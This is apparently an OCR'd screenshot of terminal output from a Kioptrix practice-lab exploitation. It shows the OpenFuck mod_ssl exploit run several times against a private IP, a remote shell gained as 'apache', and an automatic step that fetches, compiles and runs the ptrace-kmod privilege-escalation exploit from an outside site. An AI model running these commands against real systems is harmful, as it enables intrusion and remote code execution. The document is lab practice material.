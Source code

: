 ```bash
* TNX Xanthic USG #SilverLords #BloodBR #isotk #highsecure #uname *
* #ION #delirium #nitr0x #coder #root #endiabrad0s #NHC #TechTeam *
* #pinchadoresweb HiTechHate DigitalWrapperz P()W GAT ButtP!rateZ *
*******************************************************************

Connection... 40 of 40
Establishing SSL connection
cipher: 0x4043808c   ciphers: 0x80f8050
Ready to send shellcode
Spawning shell...
root@kali:/opt/OpenLuck# ./OpenFuck 0x6b 192.168.88.129 -c 40

*******************************************************************
* OpenFuck v3.0.32-root priv8 by SPABAM based on openssl-too-open *
*******************************************************************
* by SPABAM    with code of Spabam - LSD-pl - SolarEclipse - CORE *
* #hackarena  irc.brasnet.org                                     *
* TNX Xanthic USG #SilverLords #BloodBR #isotk #highsecure #uname *
* #ION #delirium #nitr0x #coder #root #endiabrad0s #NHC #TechTeam *
* #pinchadoresweb HiTechHate DigitalWrapperz P()W GAT ButtP!rateZ *
*******************************************************************

Connection... 40 of 40
Establishing SSL connection
cipher: 0x4043808c   ciphers: 0x80f81c8
Ready to send shellcode
Spawning shell...
bash: no job control in this shell
bash-2.05$
exploits/ptrace-kmod.c; gcc -o p ptrace-kmod.c; rm ptrace-kmod.c; ./p; net/0304-
--13:24:59--  http://dl.packetstormsecurity.net/0304-exploits/ptrace-kmod.c
           => `ptrace-kmod.c'
Connecting to dl.packetstormsecurity.net:80... connected!
HTTP request sent, awaiting response... 404 Not Found
13:24:59 ERROR 404: Not Found.

gcc: ptrace-kmod.c: No such file or directory
gcc: No input files
rm: cannot remove `ptrace-kmod.c': No such file or directory
bash: ./p: No such file or directory
bash-2.05$
bash-2.05$ whoami
whoami
apache
bash-2.05$ hostname
hostname
kioptrix.level1
bash-2.05$ Good Bye!
root@kali:/opt/OpenLuck# ./OpenFuck 0x6b 192.168.88.129 -c 40

*******************************************************************
* OpenFuck v3.0.32-root priv8 by SPABAM based on openssl-too-open *
*******************************************************************
* by SPABAM    with code of Spabam - LSD-pl - SolarEclipse - CORE *
* #hackarena  irc.brasnet.org                                     *
* TNX Xanthic USG #SilverLords #BloodBR #isotk #highsecure #uname *
* #ION #delirium #nitr0x #coder #root #endiabrad0s #NHC #TechTeam *
* #pinchadoresweb HiTechHate DigitalWrapperz P()W GAT ButtP!rateZ *
*******************************************************************

Connection... 40 of 40
Establishing SSL connection
cipher: 0x4043808c   ciphers: 0x80f8050
```